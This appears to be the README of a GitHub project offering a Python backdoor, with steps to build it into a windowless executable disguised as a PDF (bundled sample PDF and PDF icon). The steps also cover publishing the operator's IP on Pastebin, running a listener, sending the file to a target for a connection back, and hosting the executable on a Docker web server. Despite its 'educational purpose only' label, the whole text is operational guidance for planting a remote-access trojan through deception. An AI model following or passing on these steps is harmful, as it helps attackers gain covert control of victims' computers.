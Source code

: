 # This Backdoor dosen't bypass windows defender and other AV's

For educational Purpose only
Dosen't matter if target dosen't have pyhton installed

You should have these requirements :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in Pastebin.com
4. Must have docker installed if using it

## Steps :
1. do git clone https://github.com/Anonomous69/Backdoor
2. cd to directory
3. do C:\Users\username\Appdata\wherever\your\pyinstaller\is\there\pyintstaller.exe --add-data=sample.pdf:.  -—onefile -—noconsole --icon pdf.ico backdoor.py
4. The created backdoor must be in your "dist" folder in that directory
5. Run Listener is your machine and send the backdoor to target
6. when target clicks backdoor, u get the connection

## Docker :
for a proper web server (lacking in windows) to host the backdoor.exe file use docker
steps:
1. cd Docker
2. docker build -t Dcoker .
3. docker run Dcoker
and then go to <your_IP>:8080 in broser to download the ready-made .exe
